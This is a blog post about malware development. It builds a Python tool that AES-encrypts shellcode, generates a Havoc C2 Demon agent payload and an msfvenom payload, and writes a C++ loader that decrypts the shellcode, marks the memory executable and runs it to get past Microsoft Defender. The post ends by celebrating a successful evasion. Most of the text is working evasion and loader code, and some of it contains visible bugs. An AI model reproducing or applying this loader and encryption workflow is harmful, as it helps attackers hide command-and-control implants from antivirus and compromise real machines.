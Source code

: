 ```yaml
---
layout: post
title: Creating a payload encryption tool and testing it on the Havoc agent
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```


Payload encryption is a must against modern security solutions, as popular code such as meterpreter is sure to get caught by signature-based detection or static file analysis. Although encryption won't get us past heuristic analysis or ML behavioral analysis, it's a step forward toward being stealthy. While this is great, the drawback to payload encryption is that it increases file entropy. Entropy is a measure of randomness within a dataset, and files with an entropy that passes a certain threshold have a good chance of being marked as malicious. There are techniques to decrease entropy, which I will discuss in a later post. 

In this post, I will create a tool that implements a popular encryption algorithm for malware development. The tool will output the encrypted payload and the decrypt function of the selected encryption type. It will also generate random keys for the algorithms that need it. Afterward, I will test out an encrypted payload against Defender. 

Let's create an argument parser using the `argparse` library

```python
# Create the argument parser
parser = argparse.ArgumentParser(
                        prog='PayloadEncryptor',
                        description='Encrypts payloads...duh.',
                        epilog='Check out my blog!')

# Adding arguments to the parser
parser.add_argument('-i', dest = 'initialpayload', help = 'the name of the file that contains your payload', type=argparse.FileType('rb'))
parser.add_argument('-o', dest = 'encryptedpayload', help = 'the file where to write the encrypted payload')

# Run the parser and place the extracted data into an args.<argumentname> object
args = parser.parse_args()
# Read the payload from a file and store it in a variable
with args.initialpayload as f:
   payload = f.read()
```

Then I will create a function that takes the payload, encrypts it, and writes the output to the file the user specified. For this, I will be using the `PyCryptodome` library, as it makes my life easier.

```python
def EncryptAES(input, output):
	# Generate a random key and print it
    key = get_random_bytes(16)
    print(key)
	# Define the cipher as AES-EAX
    cipher = AES.new(key, AES.MODE_EAX)
	# Generate a nonce
    nonce = cipher.nonce
	# Encrypt the input
    ciphertext, tag = cipher.encrypt_and_digest(input)
	# Open or create a file with the name we specified, and write the encrypted payload
    file_out = open(f"{output}", "wb")
    [ file_out.write(x) for x in (cipher.nonce, tag, ciphertext) ]
```

Now let's put it to the test! But first, we will need a payload. 

```shell
msfvenom -p windows/x64/messagebox TEXT="Task failed succesfully" TITLE="Error!" -f raw > payload.bin
```

Let's take a look at it 

![Message box payload](/assets/image3.png)

Now if we run our code, it should look different

```python
python3 Encrypt.py -i payload.bin -o encryptedpayload.bin
```

![Encrypted message box payload](/assets/image4.png)

Perfect! So we know that it works, but our payload isn't that interesting. Let's use the Havoc C2 framework to create a payload for the Demon agent (don't forget to start a listener first). This command should create a .bin file.

![Generating the demon agent](/assets/image5.png)

We run our encryption script again, and we have our final payload. But now we need a loader. Let's try this going off this [template](https://github.com/TheD1rkMtr/Shellcode-Hide/blob/main/1%20-%20Simple%20Loader/SimpleLoader/SimpleLoader.cpp). After tweaking the code a bit, this is the final product:

```cpp
#include <windows.h>
#include <stdio.h>

int main() {

unsigned char payload[] = { 
    <SNIP>
};
  
	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

We will also need to decrypt our payload. For this I will use the [tiny-aes-c](https://github.com/kokke/tiny-AES-c) library.

```cpp
    #include <aes.c>

    <SNIP>

    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, cow, sizeof(cow));
```

Here is when I ran into a problem. The python script I created encrpted the payload using AES-EAX, and tiny-aes-c uses AES_CBC. Let's adapt our script

```python
def EncryptAES(input, output):
    # Generate a key
    key = get_random_bytes(16)
    # Defining a cipher
    cipher = AES.new(key, AES.MODE_CBC)
    # Encrypting the payload, also adding some padding in case it's size is not a multiple of 16 bytes
    ct_bytes = cipher.encrypt(pad(input, AES.block_size))
    # Print the IV
    print("unsigned char iv[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Print the Key
    print("unsigned char key[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Write into the specified file
    file_out = open(f"{output}", "wb")
    [ file_out.write(ct_bytes) ]
```

And after using THIS script to encrypt our payload, this is the final product

```cpp
unsigned char key[] = {
  0x7b, 0x61, 0x4f, 0xef, 0xbf, 0xbd, 0x78, 0x42, 0xef, 0xbf, 0xbd, 0x5b,
  0x31, 0x6d, 0x25, 0x0a
};

unsigned char iv[] = {
  0xef, 0xbf, 0xbd, 0x45, 0xc9, 0xbd, 0x34, 0xef, 0xbf, 0xbd, 0x54, 0x6a,
  0xef, 0xbf, 0xbd, 0x55, 0xef, 0xbf, 0xbd, 0x5b, 0x31, 0x6d, 0x0a
};

int main() {

unsigned char payload[] = {
  <SNIP>
};

  	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload)), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, cheese, chocolate);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));

	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

Now that we have our code, let's compile it!

```shell
x86_64-w64-mingw32-cc -I /Path/to/tiny-AES-c-1.0.0 -o Demon.exe Loader.cpp
```

After transferring it to the Windows machine, I ran it and...the agent crashed. Great. After debugging it a bit, I have come to the conclusion that I also need to use tiny-aes-c for encryption. 

```cpp
unsigned char payload[] {
<SNIP>
};

unsigned char key[] {
};

unsigned char iv[] {
};

AES_ctx ctx = {0};
AES_ctx_init_iv(&ctx, key, iv);
AES_CBC_encrypt_buffer(&ctx, payload, sizeof(payload));

for(int i=0,i<sizeof(payload),i++) {
  print("0x%x, ", payload[i]);
}
```

Piping the output of this into a file, and then copying it to our loader. It should work. Compiling it again and running it on our Windows host...

![Defender got pwned](/assets/image7.png)
